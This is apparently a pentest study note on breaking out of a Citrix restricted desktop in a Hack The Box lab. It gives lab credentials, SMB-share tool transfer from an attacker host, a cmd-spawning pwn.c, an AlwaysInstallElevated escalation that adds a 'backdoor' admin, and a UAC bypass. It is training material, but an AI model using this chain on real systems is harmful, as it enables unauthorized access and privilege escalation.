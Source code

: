 ```yaml
---
title: Citrix breakout
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - privilege escalation
  - windows
---
```

# Citrix breakout

There are many techniques which can be used for breaking out of a Citrix environment.

Accessing to a citrix environment:
1. Access to a url of the citrix env. In the HTB example (`http://humongousretail.com/remote/`) and enter with creds:

```citrixcredentials
Username: pmorgan
Password: Summer1Summer!
  Domain: htb.local
```

 After login, click on the `Default Desktop` to obtain the Citrix `launch.ica` file in order to connect to the restricted environment.
Double click to open it.

## Bypassing Path Restrictions

### Abusing dialog boxes

When we attempt to visit `C:\Users` using File Explorer, we find it is restricted and results in an error.

Numerous desktop applications deployed via Citrix are equipped with functionalities that enable them to interact with files on the operating system. Features like Save, Save As, Open, Load, Browse, Import, Export, Help, Search, Scan, and Print, usually provide an attacker with an opportunity to invoke a Windows dialog box. There are multiple ways to open dialog box in windows using tools such as Paint, Notepad, Wordpad, etc.

Run `Paint` from start menu and click on `File > Open` to open the Dialog Box.

With the windows dialog box open for paint, we can enter the [UNC](https://learn.microsoft.com/en-us/dotnet/standard/io/file-path-formats#unc-paths) path `\\127.0.0.1\c$\users\pmorgan` under the File name field, with File-Type set to `All Files` and upon hitting enter we gain access to the desired directory.

![](img/citrix.png)

### Accessing SMB share from restricted environment

```
# Entering to the windows citrix env, to return to Ubuntu use CTRL-Tab
# In ubuntu open a terminal
sudo su
cd /home/htb-student/Tools

```

Start a SMB server from the Ubuntu machine using Impacket's `smbserver.py` script.

```shell-session
smbserver.py -smb2support share $(pwd)
```

Back in the Citrix environment, initiate the "Paint" application via the start menu.

Proceed to navigate to the "File" menu and select "Open", thereby prompting the Dialog Box to appear.

Within this Windows dialog box associated with Paint, input the UNC path as `\\10.13.38.95\share` into the designated "File name" field.

This is a file that we have hosted there: pwn.exe. This binary is the compiled binary from pwn.c:

```c
#include <stdlib.h>
int main() {
  system("C:\\Windows\\System32\\cmd.exe");
}
```

We can then use the obtained cmd access to copy files from SMB share to pmorgans Desktop directory. Now we can:

```
powershell -ep bypass
cd c:\Users\pmorgan\Desktop
xcopy \\10.13.38.95\share\Bypass-UAC.ps1
xcopy \\10.13.38.95\share\PowerUp.ps1
xcopy \\10.13.38.95\share\pwn.exe
```

Even though without downloading these files, we could right-click the executable and get a cmd terminal. 

Once we access to the terminal, we can jump to Escalating privileges.

### Alternate Explorer

In cases where strict restrictions are imposed on File Explorer, alternative File System Editors like `Q-Dir` or `Explorer++` can be employed as a workaround.

[Explorer++](https://explorerplusplus.com/) is highly recommended and frequently used in such situations due to its speed, user-friendly interface, and portability.


### Modify existing shortcut file

Unauthorized access to folder paths can also be achieved by modifying existing Windows shortcuts and setting a desired executable's path in the `Target` field.
1. `Right-click` the desired shortcut.
2. Select `Properties`.
3. Within the `Target` field, modify the path to the intended folder for access.
4. Execute the Shortcut and cmd will be spawned

In cases where an existing shortcut file is unavailable, there are alternative methods to consider. One option is to transfer an existing shortcut file using an SMB server.

## Alternate Registry Editors

Similarly when the default Registry Editor is blocked by group policy, alternative Registry editors can be employed to bypass the standard group policy restrictions. [Simpleregedit](https://sourceforge.net/projects/simpregedit/), [Uberregedit](https://sourceforge.net/projects/uberregedit/) and [SmallRegistryEditor](https://sourceforge.net/projects/sre/) are examples of such GUI tools that facilitate editing the Windows registry without being affected by the blocking imposed by group policy.


## Script Execution

When script extensions such as `.bat`, `.vbs`, or `.ps` are configured to automatically execute their code using their respective interpreters, it opens the possibility of dropping a script that can serve as an interactive console or facilitate the download and launch of various third-party applications which results into bypass of restrictions in place.

1. Create a new text file and name it "evil.bat".
2. Open "evil.bat" with a text editor such as Notepad.
3. Input the command "cmd" into the file.
4. Save the file.

## Escalating Privileges

Once access to the command prompt is established, it's possible to search for vulnerabilities in a system more easily. For instance, tools like [Winpeas](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS) and [PowerUp](https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerUp/PowerUp.ps1) can also be employed to identify potential security issues and vulnerabilities within the operating system.

Using `PowerUp.ps1`, we find that [Always Install Elevated](https://learn.microsoft.com/en-us/windows/win32/msi/alwaysinstallelevated) key is present and set.

We can also validate this using the Command Prompt by querying the corresponding registry keys:

```cmd-session
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```


Once more, we can make use of PowerUp, using it's `Write-UserAddMSI` function. This function facilitates the creation of an `.msi` file directly on the desktop.

```powershell-session
 Import-Module .\PowerUp.ps1
 Write-UserAddMSI
```

Output:

```powershell-session
Output Path
-----------
UserAdd.msi
```

Now we can execute `UserAdd.msi` and create a new user `backdoor:password123.` under Administrators group.

And:

```cmd-session
runas /user:backdoor cmd
```

### Bypassing UAC

Numerous [UAC bypass](https://github.com/FuzzySecurity/PowerShell-Suite/tree/master/Bypass-UAC) scripts are available, designed to assist in circumventing the active User Account Control (UAC) mechanism. These scripts offer methods to navigate past UAC restrictions and gain elevated privileges.

```cmd-session
cd C:\Users\Administrator
```

Output:

```cmd-session
Access is denied.
```

Numerous [UAC bypass](https://github.com/FuzzySecurity/PowerShell-Suite/tree/master/Bypass-UAC) scripts are available, designed to assist in circumventing the active User Account Control (UAC) mechanism. These scripts offer methods to navigate past UAC restrictions and gain elevated privileges.

We will use [Bypass-UAC.ps1](files/Bypass-UAC.ps1) from https://github.com/FuzzySecurity/PowerShell-Suite/blob/master/Bypass-UAC/Bypass-UAC.ps1:

```powershell-session
Import-Module .\Bypass-UAC.ps1
Bypass-UAC -Method UacMethodSysprep
```


Following a successful UAC bypass, a new powershell windows will be opened with higher privileges and we can confirm it by utilizing the command `whoami /all` or `whoami /priv`. This command provides a comprehensive view of the current user's privileges. And we can now access the Administrator directory.


## Additional resources worth checking:

- [Breaking out of Citrix and other Restricted Desktop environments](https://www.pentestpartners.com/security-blog/breaking-out-of-citrix-and-other-restricted-desktop-environments/)
- [Breaking out of Windows Environments](https://node-security.com/posts/breaking-out-of-windows-environments/)